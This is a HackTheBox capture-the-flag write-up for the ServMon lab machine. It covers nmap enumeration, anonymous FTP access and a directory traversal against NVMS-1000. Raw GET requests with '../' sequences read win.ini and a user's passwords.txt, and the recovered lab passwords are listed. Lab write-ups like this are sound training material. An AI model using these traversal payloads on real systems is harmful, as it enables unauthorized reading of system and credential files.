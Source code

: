 # ServMon

## Enumeration

NMAP Scan - All Ports:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report "10.10.10.184"

PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
22/tcp    open  ssh          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
6063/tcp  open  x11          syn-ack ttl 127
6699/tcp  open  napster      syn-ack ttl 127
8443/tcp  open  https-alt    syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49670/tcp open  unknown      syn-ack ttl 127
```

NMAP Scan Port Services:

```bash
nmap -sV -sC -Pn -v -oN nmap-report "10.10.10.184" -p 21,22,80,135,139,445,6063,6699,8443,49667,49670

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
6063/tcp  open  x11?
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03:0c40:5b7a:0f6d:d8c8:78e3:cba7:38b4
|_SHA-1: 7083:bd82:b4b0:f9c0:cc9c:5019:2f9f:9291:4694:8334
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     jgf4
|     /3KLCffK5o8
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: NSClient++
|_Requested resource was /index.html
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=5/12%Time=6640A9FF%P=x86_64-pc-linux-gnu%r(N
SF:ULL,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text
SF:/html\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\
SF:r\n\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20
SF:text/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo
SF::\x20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x
SF:20XHTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml
SF:1/DTD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w
SF:3\.org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x
SF:20\x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n
SF:\x20\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\
SF:n")%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/
SF:html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20
SF:\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHT
SF:ML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD
SF:/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.or
SF:g/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x2
SF:0\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\
SF:x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r
SF:(RTSPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\
SF:r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\
SF:r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x2
SF:01\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtm
SF:l1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/199
SF:9/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20
SF:\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x
SF:20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.94SVN%T=SSL%I=7%D=5/12%Time=6640AA08%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocat
SF:ion:\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0jgf4\0\0\0\0/3KLCffK5o8
SF:\x12\x02\x18\0\x1aC\n\x07workers\x12\n\n\x04jobs\x12\x02\x188\x12\x0f")
SF:%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDoc
SF:ument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\r\nCon
SF:tent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTSPRequest,36,"
SF:HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20fou
SF:nd")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\n
SF:Document\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-12T11:39:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 3s
```

## FTP - Anonymous Login

NMAP scan results show that Anonymous login is enabled for FTP. 

```bash
> ftp 10.10.10.184

Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
```

The FTP service with Anonymous login allowed us to access a `Users` directory which contained two directories called `Nadine` and `Nathan`. The `Nadine` directory contained a txt file titled `Confidential.txt` which indicates a file called `passwords.txt` is stored on the user Nathan's Desktop.

```bash
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The `Nathan` directory contained a txt file titled `Notes to do.txt`, which indicates that Nathan did change his password but may not have removed the `passwords.txt` file from his desktop and perform some other tasks.

```bash
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

## HTTP Website 

Navigating to `http://10.10.10.184` returns a login page for NVMS-1000, which was mentioned in the txt file titled `Notes to do.txt` found earlier. 

![Login Page](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/ServMon/Images/Login%20Page.png)

Searching online for NVMS-1000 reveals multiple exploit scripts for Directory Traversal attacks. ExploitDB provides a proof of concept, which we are able to recreate via Burpsuite:

* [ExploitDB - POC](https://www.exploit-db.com/exploits/47774)

In BurpSuite, I captured a HTTP GET request for the login page and tested for Directory traversal:

```http
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
```

This returns a 200 HTTP response which contains the contents of `win.ini`.

```http
HTTP/1.1 200 OK
Content-type: 
Content-Length: 92
Connection: close
AuthInfo: 

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Now that we know the Directory Traversal attack works, we can manually exploit it to recover the contents of `C:/Users/Nathan/Desktop/passwords.txt`, as hinted at earlier in the file titled `Confidential.txt` found via FTP anonymous login vulnerability.

```http
GET /../../../../../../../../../../../../Users/Nathan/Desktop/passwords.txt HTTP/1.1
```

In the HTTP response, I can see the list of passwords:

```http
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```













